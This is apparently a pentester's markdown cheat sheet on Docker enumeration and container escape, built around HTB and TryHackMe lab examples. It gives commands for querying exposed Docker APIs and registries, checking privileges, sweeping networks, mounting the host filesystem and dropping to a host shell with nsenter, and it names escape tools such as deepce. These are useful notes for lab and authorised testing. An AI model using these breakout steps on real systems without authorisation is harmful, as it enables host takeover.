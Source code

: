 ```yaml
---
layout: post
title: Docker
description: Docker
summary: Docker
tags: [devops,docker,enum]
minute: 1
---
```

## Overview
* Running container with `--privileged` gives all capabilities to containers compared to just using `--cap-add SYS_ADMIN`

## Detection
* A host may be running docker if it exposes different version of app from network scan. Example is from HTB Enterprise, there are multiple apache versions which is odd. I was found out that its running 2 docker containers, 1 for wordpress and 1 for joomla.

## Ports
* 2375/tcp
* 2376/tcp

## Network
* Example container IP is `172.17.0.2`

## Docker API Commands
```bash
# gets docker version
curl http://10.10.198.13:2375/version

# getting list of images via exposed docker tcp socket
docker -H tcp://10.10.198.13:2375 ps
```

## Container Commands
```bash
# are we inside a container?
ls -l /.dockerenv
cat /proc/1/cgroup | grep docker

# check if privileged - you must see host devices
fdisk -l

# check if privileged (looks like these should be seen
# under `Current:` and not on the bounding set)
# - if Capeff is set to all 0's, the container most likely
#   doesn't have much permissions, meaning you can't breakout!
capsh --print | egrep 'cap_(net_admin|sys_module|sys_chroot|sys_admin|sys_time)'

# Use this if `capsh` is not available
# - on attacker machine, get one output and decode it:
#     capsh --decode=<NUMBERS>
#     NOTE: Look at CapPrm and CapEff output
cat /proc/$$/status | grep ^Cap

# Extracting network information
cat /proc/net/tcp
hostname -I
ifconfig
ip a

# Check the available IPs via arp. For example, you can find
# IP addresses of databases using these methods below.
ip neighbor
arp -a
cat /etc/hosts

# Check subnets
cat /proc/net/fib_trie | grep -B1 "32 host LOCAL"

# You can also do ping sweep to see reachable IPs.
for i in {1..254}; do (ping -c 1 172.17.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
for i in {1..65535}; do ping -c 1 172.20.0.${i} &> /dev/null && echo "$i: UP"; done

# check if can control docker socket
ls -l /var/run/docker.sock

# check if you can write to the filesystem
echo 1 > /proc/sysrq-trigger

# try to mount host root volume
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# docker running with --pid=host command? processes
# must be similar to host processes
ps -ef

# use a statically compiled nmap and upload
# /usr/share/nmap inside the container
./nmap --datadir usr/share/nmap -sT -p1-65535 172.20.0.1-10

# enter root namespace and drop to host shell
nsenter --target 1 --mount sh

# create a new namespace mapping root user
unshare -r

# see if you can migrate to another namespace (root namespace?)
nsenter --target 1 --all

# check hardcoded IPs and hostnames
cat /etc/hosts

# check what devices are available and mounted
mount
cat /proc/mounts
```

## Automated tools
```bash
# https://github.com/cdk-team/CDK#installationdelivery
cdk evaluate --full

# https://github.com/PercussiveElbow/docker-escape-tool
./docker_escape check

# https://github.com/stealthcopter/deepce
./deepce.sh
./deepce.sh --no-enumeration --exploit PRIVILEGED --username
./deepce.sh --password deepce
```

## Docker Registries
```bash
# gets images
curl http://docker-rodeo.thm:5000/v2/_catalog

# gets image tags
url http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/tags/list

# inspect image manifest file
curl http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/manifests/latest | grep /root/root.txt
```

## Docker parameters
```bash
# gives full privileges on the host system
--privileged

# removes any security restrictions for the container
--security-opt seccomp=undefined
```

## Tools
* [deepce](https://github.com/stealthcopter/deepce)
* [dive](https://github.com/wagoodman/dive) - reverse engineers docker images

## References
* [Docker Breakout - HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)
* [2375, 2376 Pentesting Docker - HackTricks](https://book.hacktricks.xyz/pentesting/2375-pentesting-docker)
* [Hacking Dockers and Containers (OWASP)](https://owasp.org/www-chapter-sydney/files/docker-containers.pdf)
* [GitHub - sneakerhax/OffensiveDocker: Offensive security tools Dockerized](https://github.com/sneakerhax/OffensiveDocker)
* [An Attacker Looks at Docker (BlackHat)](https://i.blackhat.com/us-18/Thu-August-9/us-18-McGrew-An-Attacker-Looks-At-Docker-Approaching-Multi-Container-Applications-wp.pdf)
* [Lesson 4: Hacking Containers Like A Boss | Practical DevSecOps](https://www.practical-devsecops.com/lesson-4-hacking-containers-like-a-boss/)
* [Cgroups](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)
* https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf

